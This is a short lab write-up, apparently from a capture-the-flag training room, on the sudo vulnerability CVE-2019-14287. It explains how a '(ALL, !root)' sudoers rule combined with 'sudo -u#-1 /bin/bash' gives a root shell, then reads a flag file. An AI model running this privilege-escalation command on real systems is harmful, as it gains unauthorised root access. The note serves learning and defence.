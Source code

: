 # Sudo Security Bypass


- `CVE-2019-14287` is a vulnerability found in sudo and is present in versions < 1.8.28
- sudo allows you to execute programs as other users through username or user id (UID)
    - `sudo -u#<id> <command>` or `sudo -u <user> <command>`
- sudo can be configured manually through the `/etc/sudoers` file or through the `visudo`
- The vulnerability occurs when this is added to the sudoers file `<user> ALL=(ALL:!root) NOPASSWD: ALL`, or a variant of this that specifies programs that can be used, like `<user> ALL=(ALL, !root) NOPASSWD: /bin/bash`
    - This lets the specified user run any program - or the one specified - as any other user except as root
- Given that the sudoers file was configured as above for the current user, the vulnerable versions of sudo allowed the user to execute programs as root if they used a certain UID
    - If a UID value of -1 or its unsigned equivalent 4294967295 is specified, sudo would incorrectly read it as being 0 (root)
    - `sudo -u#-1 <command>`
- Exercise
    1. Use `sudo -l` to see `(ALL, !root) NOPASSWD: /bin/bash`, so we can run bash as any other user except for root. Exploit this with `sudo -u#-1 /bin/bash`
    2. `cat /root/root.txt` to find `THM{l33t_s3cur1ty_bypass}`
